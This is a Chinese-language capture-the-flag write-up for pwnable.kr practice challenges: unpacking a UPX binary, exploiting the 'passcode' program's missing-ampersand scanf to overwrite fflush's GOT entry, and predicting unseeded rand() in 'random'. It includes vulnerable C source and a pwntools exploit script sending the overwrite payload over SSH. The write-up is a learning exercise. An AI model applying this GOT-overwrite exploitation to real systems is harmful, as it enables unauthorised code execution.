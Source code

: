 #PWN从入门到放弃2
---
[pwnable.kr](http://pwnable.kr/)是一个很适合新手入门的网站。
![](https://s1.ax1x.com/2018/08/03/P0o4K0.png)
0x04 
--
题目给出了一个名为flag的文件，下载下来。

![](1.png)

发现应该是upx加过壳的，用upx -d脱壳

![](2.png)

可以在数据段中直接看到flag

0x05 passcode
--
ssh连上去，查看一下passcode.c的代码。

	#include <stdio.h>
	#include <stdlib.h>

	void login(){
		int passcode1;
		int passcode2;
	
		printf("enter passcode1 : ");
		scanf("%d", passcode1);
		fflush(stdin);
	
		// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
		printf("enter passcode2 : ");
	        scanf("%d", passcode2);
	
		printf("checking...\n");
		if(passcode1==338150 && passcode2==13371337){
	                printf("Login OK!\n");
	                system("/bin/cat flag");
	        }
	        else{
	                printf("Login Failed!\n");
			exit(0);
	        }
	}
	
	void welcome(){
		char name[100];
		printf("enter you name : ");
		scanf("%100s", name);
		printf("Welcome %s!\n", name);
	}
	
	int main(){
		printf("Toddler's Secure Login System 1.0 beta.	\n");
	
		welcome();
		login();
	
		// something after login...
		printf("Now I can safely trust you that you have 	credential :)\n");
		return 0;	
	}
	
可以发现login函数中的`scanf("%d",passcode);`中没有加`&`符，如果scanf没有加取地址符&的话，就会默认从栈中取4个字节当做scanf的地址，我们就可以利用这一点来覆盖GOT表。

将一个GOT表中的函数地址写到栈中，用来充当scanf（）取的地址，然后把system("/bin/cat flag")这条指令的地址写到这个GOT表中的函数。

当这个函数被调用时，就会直接执行system("/bin/cat flag")

可以看到welcome中只读入了100个字符。我们使用`cyclic 100`生成100个字符串。

![](3.png)

可以看到login中的scanf将我们输入的最后四个字符当做地址，那么我们就可以将最后四个字节换成GOT表中fflush函数的地址，输入的时候将system函数的地址输入进去，就可以覆盖GOT表，这样在执行fflush函数的时候就会执行system函数。从而得到flag。

使用`objdump -R passcode`或者`readelf -r passcode`查找到fflush函数在GOT表中的地址为0x0804a004。(注意这里需要在ssh服务器上查看GOT表才可以，除非本机和服务器上的系统版本相同)

![](4.png)

使用gdb查到system的地址为0x080485e3(mov是将system函数的参数入栈).

![](5.png)

exp如下：

	from pwn import *
	pwn_ssh=ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)
	print (pwn_ssh.connected())
	sh=pwn_ssh.process(executable="./passcode")
	
	print (sh.recv())
	sh.sendline('A'*96+'\x04\xa0\x04\x08'+'134514147')
	print (sh.recvall())

0x06 random
-
ssh连接，查看源码。

	#include <stdio.h>
	
	int main(){
		unsigned int random;
		random = rand();	// random value!
	
		unsigned int key=0;
		scanf("%d", &key);
	
		if( (key ^ random) == 0xdeadbeef ){
			printf("Good!\n");
			system("/bin/cat flag");
			return 0;
		}
	
		printf("Wrong, maybe you should try 2^32 cases.\n");
		return 0;
	}

rand函数想要实现真正的随机数，必须有一个随机种子，如果没有将种子作为rand函数的参数的话，rand函数产生的并不是真正的随机数，而是伪随机数。

是伪随机数的话，那么就可以通过调试来确定rand第一次产生的数是什么，然后与0xdeadbeef异或，就可以得到我们需要输入的值。

![](6.png)

rand第一次产生的数为0x6b8b4567,和0xdeadbeef得到0xB526FB88

